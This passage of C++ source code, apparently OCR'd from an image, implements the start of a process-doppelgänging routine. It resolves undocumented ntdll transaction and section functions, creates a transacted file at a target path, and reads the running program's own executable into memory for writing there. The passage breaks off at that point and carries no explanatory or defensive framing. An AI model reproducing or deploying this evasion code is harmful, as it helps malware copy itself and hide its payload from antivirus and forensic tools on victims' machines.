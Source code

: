         pNtCreateTransaction NtCreateTransaction = (pNtCreateTransaction)
            GetProcAddress(hNtdll, "NtCreateTransaction");
        pNtCreateSection NtCreateSection = (pNtCreateSection)
            GetProcAddress(hNtdll, "NtCreateSection");
        pNtRollbackTransaction NtRollbackTransaction = (pNtRollbackTransaction)
            GetProcAddress(hNtdll, "NtRollbackTransaction");
            
        if (!NtCreateTransaction || !NtCreateSection || !NtRollbackTransaction)
            return false;
            
        OBJECT_ATTRIBUTES oa = {sizeof(oa)};
        NTSTATUS status = NtCreateTransaction(&hTransaction, 
            TRANSACTION_ALL_ACCESS, &oa, NULL, NULL, 0, 0, 0, NULL, NULL);
            
        if (status != 0) return false;
        
        hTransactedFile = CreateFileTransactedW(targetPath, 
            GENERIC_READ | GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 
            FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);
            
        if (hTransactedFile == INVALID_HANDLE_VALUE) {
            CloseHandle(hTransaction);
            return false;
        }
        
        wchar_t currentPath[MAX_PATH];
        GetModuleFileNameW(NULL, currentPath, MAX_PATH);
        
        HANDLE hCurrentFile = CreateFileW(currentPath, GENERIC_READ, 
            FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
            
        if (hCurrentFile == INVALID_HANDLE_VALUE) {
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        DWORD fileSize = GetFileSize(hCurrentFile, NULL);
        if (fileSize == INVALID_FILE_SIZE) {
            CloseHandle(hCurrentFile);
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        std::vector<BYTE> buffer(fileSize);
        DWORD bytesRead;
        
        if (!ReadFile(hCurrentFile, buffer.data(), fileSize, &bytesRead, NULL)) {
            CloseHandle(hCurrentFile);
            CloseHandle(hTransactedFile);
            CloseHandle(hTransaction);
            return false;
        }
        
        CloseHandle(hCurrentFile);
        